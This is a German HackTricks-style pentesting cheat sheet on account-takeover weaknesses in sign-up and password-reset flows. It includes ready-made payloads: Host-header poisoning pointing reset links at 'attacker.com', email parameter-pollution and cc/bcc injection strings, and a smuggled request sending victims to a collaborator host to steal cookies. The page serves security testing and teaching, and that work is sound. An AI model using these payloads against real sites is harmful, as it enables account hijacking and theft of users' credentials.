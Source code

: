 # Registrierung & Übernahmeanfälligkeiten

{{#include ../banners/hacktricks-training.md}}

## Registrierung Übernahme

### Doppelte Registrierung

- Versuchen Sie, mit einem vorhandenen Benutzernamen zu generieren
- Überprüfen Sie die Variation der E-Mail:
- Großbuchstaben
- \+1@
- Fügen Sie einen Punkt in die E-Mail ein
- Sonderzeichen im E-Mail-Namen (%00, %09, %20)
- Setzen Sie schwarze Zeichen nach der E-Mail: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Benutzernamen Enumeration

Überprüfen Sie, ob Sie herausfinden können, ob ein Benutzername bereits in der Anwendung registriert wurde.

### Passwort-Richtlinie

Erstellen Sie einen Benutzer und überprüfen Sie die Passwort-Richtlinie (überprüfen Sie, ob Sie schwache Passwörter verwenden können).\
In diesem Fall können Sie versuchen, Anmeldeinformationen zu bruteforcen.

### SQL-Injection

[**Überprüfen Sie diese Seite** ](sql-injection/#insert-statement), um zu lernen, wie man Kontenübernahmen versucht oder Informationen über **SQL-Injections** in Registrierungsformularen extrahiert.

### Oauth-Übernahmen

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### SAML-Anfälligkeiten

{{#ref}}
saml-attacks/
{{#endref}}

### E-Mail ändern

Versuchen Sie nach der Registrierung, die E-Mail zu ändern, und überprüfen Sie, ob diese Änderung korrekt validiert wird oder ob Sie sie auf beliebige E-Mails ändern können.

### Weitere Überprüfungen

- Überprüfen Sie, ob Sie **wegwerfbare E-Mails** verwenden können
- **Lange** **Passwörter** (>200) führen zu **DoS**
- **Überprüfen Sie die Ratenlimits bei der Kontoerstellung**
- Verwenden Sie username@**burp_collab**.net und analysieren Sie den **Callback**

## **Passwortzurücksetzungsübernahme**

### Passwortzurücksetzung Token-Leck über Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Fordern Sie die Passwortzurücksetzung an Ihre E-Mail-Adresse an
2. Klicken Sie auf den Link zur Passwortzurücksetzung
3. Ändern Sie das Passwort nicht
4. Klicken Sie auf beliebige 3rd Party-Websites (z.B.: Facebook, Twitter)
5. Abfangen Sie die Anfrage im Burp Suite Proxy
6. Überprüfen Sie, ob der Referer-Header das Passwortzurücksetzungstoken leakt.

### Passwortzurücksetzung Vergiftung <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Fangen Sie die Anfrage zur Passwortzurücksetzung in Burp Suite ab
2. Fügen Sie die folgenden Header in Burp Suite hinzu oder bearbeiten Sie sie: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Leiten Sie die Anfrage mit dem modifizierten Header weiter\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Suchen Sie nach einer URL zur Passwortzurücksetzung basierend auf dem _Host-Header_ wie: `https://attacker.com/reset-password.php?token=TOKEN`

### Passwortzurücksetzung über E-Mail-Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR bei API-Parametern <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Angreifer müssen sich mit ihrem Konto anmelden und zur Funktion **Passwort ändern** gehen.
2. Starten Sie Burp Suite und intercepten Sie die Anfrage.
3. Senden Sie sie an den Repeater-Tab und bearbeiten Sie die Parameter: Benutzer-ID/E-Mail\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Schwacher Passwort-Zurücksetz-Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Der Passwort-Zurücksetz-Token sollte zufällig generiert und jedes Mal einzigartig sein.\
Versuchen Sie zu bestimmen, ob der Token abläuft oder ob er immer derselbe ist. In einigen Fällen ist der Generierungsalgorithmus schwach und kann erraten werden. Die folgenden Variablen könnten vom Algorithmus verwendet werden.

- Zeitstempel
- Benutzer-ID
- E-Mail des Benutzers
- Vorname und Nachname
- Geburtsdatum
- Kryptographie
- Nur Zahlen
- Kleine Token-Sequenz (Zeichen zwischen \[A-Z,a-z,0-9])
- Token-Wiederverwendung
- Ablaufdatum des Tokens

### Leckender Passwort-Zurücksetz-Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Lösen Sie eine Passwort-Zurücksetz-Anfrage über die API/UI für eine bestimmte E-Mail aus, z.B.: test@mail.com
2. Überprüfen Sie die Serverantwort und suchen Sie nach `resetToken`
3. Verwenden Sie dann den Token in einer URL wie `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Passwort-Zurücksetzung über Benutzernamen-Kollision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrieren Sie sich im System mit einem Benutzernamen, der identisch mit dem Benutzernamen des Opfers ist, jedoch mit Leerzeichen vor und/oder nach dem Benutzernamen. z.B.: `"admin "`
2. Fordern Sie eine Passwort-Zurücksetzung mit Ihrem böswilligen Benutzernamen an.
3. Verwenden Sie den Token, der an Ihre E-Mail gesendet wurde, und setzen Sie das Passwort des Opfers zurück.
4. Melden Sie sich mit dem neuen Passwort beim Konto des Opfers an.

Die Plattform CTFd war anfällig für diesen Angriff.\
Siehe: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Kontoübernahme über Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Finden Sie ein XSS innerhalb der Anwendung oder einer Subdomain, wenn die Cookies auf die übergeordnete Domain beschränkt sind: `*.domain.com`
2. Lecken Sie das aktuelle **Sitzungscookie**
3. Authentifizieren Sie sich als der Benutzer mit dem Cookie

### Kontoübernahme über HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Verwenden Sie **smuggler**, um den Typ des HTTP Request Smuggling (CL, TE, CL.TE) zu erkennen\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Erstellen Sie eine Anfrage, die `POST / HTTP/1.1` mit den folgenden Daten überschreibt:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` mit dem Ziel, die Opfer zu burpcollab umzuleiten und ihre Cookies zu stehlen\
3\. Die endgültige Anfrage könnte wie folgt aussehen
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone-Berichte, die diesen Fehler ausnutzen\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Kontoübernahme über CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Erstellen Sie ein Payload für das CSRF, z.B.: „HTML-Formular mit automatischer Übermittlung für eine Passwortänderung“
2. Senden Sie das Payload

### Kontoübernahme über JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token könnte verwendet werden, um einen Benutzer zu authentifizieren.

- Bearbeiten Sie das JWT mit einer anderen Benutzer-ID / E-Mail
- Überprüfen Sie die schwache JWT-Signatur

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Referenzen

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
